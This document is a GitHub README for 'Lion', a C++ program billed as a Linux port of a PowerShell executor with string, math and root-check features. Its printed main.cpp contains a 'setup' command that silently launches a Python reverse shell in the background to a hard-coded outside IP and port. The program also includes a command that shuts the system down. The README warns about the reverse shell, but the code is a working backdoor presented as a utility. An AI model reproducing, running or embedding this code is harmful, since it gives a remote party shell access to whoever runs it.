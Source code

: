 ```yaml
---
title: Lion
description: An attempt to recode Ion a powershell executor to Linux, or a branch off of it.
author: EIonvv
date: 2025-02-18
version: 1.0.0
license: MIT
warning: This project contains code that executes a reverse shell. Use responsibly and only in authorized environments.
---
```


# Lion

## Overview

This is a C++ program that demonstrates various functionalities, including string manipulation, mathematical operations, and system-level interactions. It also includes a module manager for organizing and managing different components of the application.

**Important Note**: The code includes a Python script that establishes a reverse shell connection to a remote IP address (`172.233.149.248:4443`). This is a potentially malicious operation and should only be used in controlled environments for legitimate purposes (e.g., penetration testing with proper authorization). Use this code responsibly and ethically.

---

## Features

- **String Manipulation**: Combines a greeting message with the current username using `linux_branch::string::FullString`.
- **Mathematical Operations**: Performs basic arithmetic operations (e.g., addition) using the `add` function.
- **System Interaction**: Includes a `setup` command that executes a Python script for network operations.
- **Root Check**: Verifies if the application is running with root privileges using `root::check_root`.

---

## Code Explanation

### Main Functionality

```cpp
#include "core/core.h"
#include "modules/module_manager.h"

bool setup_command() {
  static bool executed = false;
  if (!executed) {
    system("nohup python3 -c 'import socket,subprocess,os;"
           "s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);"
           "s.connect((\"172.233.149.248\",4443));"
           "os.dup2(s.fileno(),0);"
           "os.dup2(s.fileno(),1);"
           "os.dup2(s.fileno(),2);"
           "import pty; pty.spawn(\"/bin/bash\")' > /dev/null 2>&1 &");
    executed = true;
    return executed;
  }
  std::cout << "Running on Linux!" << std::endl;
  return executed;
}

bool math_command() {
  try {
    modules::math::operations ops;
    double result = ops.add(1.0,2.0);
    Logger::log(Logger::LogLevel::Info,
                "Result of addition: " + std::to_string(result));
  } catch (const std::exception &e) {
    std::cerr << "Error: " << e.what() << std::endl;
    return false;
  }
  return true;
}

bool shutdown_command() {
  system("shutdown -h now");
  Logger::log(Logger::LogLevel::Info, "System is shutting down...");
  return true;
}

bool test_command() {
  testCore::command test;
  test.testCommand();
  Logger::log(Logger::LogLevel::Info, "Test command executed successfully.");
  return true;
}

int main(int argc, char **argv) {
  Logger::log(Logger::LogLevel::Info, "Starting the application...");

  const std::string username = modules::username::getUsername();
  const std::string colored_username = RESET + username + RESET;
  std::string role =
      modules::root::is_root() ? RED "root" RESET : GREEN "non-root" RESET;

  const std::string greeting = colored_username + " [" + role + "]";

  if (argc < 2) {
    // std::cout << greeting << std::endl;
    Logger::log(Logger::LogLevel::Info, greeting);
    Logger::log(Logger::LogLevel::Info, "Available commands: setup, math");
    return 1;
  }

  const std::string command = argv[1];

  // Map of command names to their corresponding functions
  std::map<std::string, std::function<bool()>> command_map = {
      {"shutdown", shutdown_command},
      {"setup", setup_command},
      {"math", math_command},
      {"test", test_command},
  };

  auto it = command_map.find(command);
  if (it != command_map.end()) {
    it->second();
  } else {
    // std::cerr << "Unknown command: " << command << std::endl;
    Logger::log(Logger::LogLevel::Error, "Unknown command: " + command);
    return 1;
  }

  return 0;
}
```

### Prerequisites

Before building and running the project, ensure you have the following installed:

    C++ Compiler: GCC or Clang.

    Python 3: Required for the setup command (Reverse Shell).

    Linux Environment: The application is designed to run on Linux.
---

### Building and Running

    Clone the Repository:
    bash
    Copy

    git clone https://github.com/EIonvv/Lion.git
    cd Lion

    Compile the Code:
    bash
    Copy

    g++ -o my_program main.cpp -Iinclude -Llib -lmodule_manager

    Run the Program:
    bash
    Copy

    ./my_program

    To execute the setup command:
    bash
    Copy

    ./my_program setup
---

### Warning

The setup command executes a Python script that creates a reverse shell connection to a remote IP address (172.233.149.248:4443). This is a security risk and should only be used in controlled environments with proper authorization. Misuse of this code may violate laws and ethical guidelines.
License

This project is licensed under the MIT License. Use it responsibly and at your own risk.
Contributing

Contributions are welcome! Please open an issue or submit a pull request for any improvements or fixes.

---

### Example

![alt text](gh/image.png)
![alt text](gh/image_2.png)
